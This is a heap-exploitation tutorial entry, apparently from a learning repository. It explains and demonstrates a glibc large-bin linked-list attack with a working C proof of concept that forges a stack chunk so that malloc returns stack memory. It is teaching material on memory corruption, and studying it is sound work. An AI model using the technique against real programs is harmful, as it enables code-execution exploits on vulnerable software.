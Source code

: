 <details>
<summary><strong>Description</strong></summary>
<p>

Similar to the unsorted bin linked list, our goal is to allocate a ptr on the stack from malloc. However this time we will be leveraging the large bin. However, the process will be pretty similar...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk1, *chunk2, stack_array[140], *chunk3;

    // allocate two big chunks
    chunk1 = malloc(0x420);
    malloc(0x18); // padding chunk to prevent consolidation
    chunk2 = malloc(0x420);
    malloc(0x18); // padding chunk to prevent consolidation

    free(chunk1); // insert them into the unsorted bin
    free(chunk2);

    // malloc a chunk larger than any other unsorted bin chunks to move the three chunks over to the large bin
    malloc(0x420 + 0x10);
    // [largebin 0x400-0x430]: chunk1 -> chunk2

    // create the large bin fake chunk header
    // stack_array[0] = 0x000; // fake chunk's prev_size (usually we dont need to care about this)
    stack_array[1] = 0x431; // fake chunk's size (turn on the prev_inuse for easier)

    // add a fake heap chunk header, right after the end of our fake large bin bin chunk
    // this is because there are checks for the next adjacent chunk since if malloc properly allocated this (fake) chunk, there would be one there
    stack_array[134] = 0x430; // fake adjacent chunk prev_size
    stack_array[135] = 0x050; // fake adjacent chunk size (turn off the prev_inuse)

    // set the fwd/bk pointers of our large bin fake chunk, so that they point to the two chunks were linking to here
    stack_array[2] = ((long)chunk2 - 0x10); // fwd
    stack_array[3] = ((long)chunk1 - 0x10); // bk

    // clear out the fd_nextsize/bk_nexsize of large bin skiplist
    stack_array[4] = 0x00;
    stack_array[5] = 0x00;

    /*VULNERABILITY*/
    chunk1[0] = (long)(stack_array); // fwd
    chunk2[1] = (long)(stack_array); // bk
    /*VULNERABILITY*/
    // [largebin 0x400-0x430]: chunk1 -> fake_chunk -> chunk2

    // allocate our fake large bin chunk that is on the stack
    chunk3 = malloc(0x420);

    printf("chunk3: %p\n", chunk3);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

this is going to be pretty similar to the unsorted bin linked list demo. The primary differences here include, that we are doing it with large bin chunks instead of the unsorted bin. In addition to that, since we are dealing with large bin chunks, I am having to set the skiplist ptrs (fd_nextsize/bk_nexsize) to 0x00, to prevent issues (if we leave it as whatever was on the stack, it will interpret that data as memory addresses, and try to dereference them, which can cause issues).

so just to recap on how this works. We will get 2 chunks into the large bin via several mallocs/frees. These 2 chunks will be the same size. Since they are the same size, only one of these chunks will be in the large bin skip list. Then we will continue with creating a fake chunk on the stack. This includes setting the prev_size (0x00), chunk size (0x431), fwd/bk ptrs, and skip_list ptrs (0x00). In addition to that, we will need to set the fake chunk header after our chunk (prev_size of 0x430 to match our fake chunk size).

after that, we will insert our fake stack large bin chunk into the large bin. We will simply set the fwd/bk pointers to match our fake stack chunk, and vice versa. Since we aren't dealing with skip list chunks, this simplifies the process. With that, we have effectively inserted our fake stack chunk into the large bin.

after that, all that is left is to allocate it. If there are multiple chunks of the same size in the large bin, the large bin will allocate chunks not in the skip list first, so it doesn't have to update the skip list. So it will directly allocate our fake chunk, which is the foward chunk of the one has skip list.

</p>
</summary>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/bin_overviews/large_bins.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/large_bin/linked_list/readme.md
> i modified it a little bit (easier) (but it's worth to read)

</p>
</summary>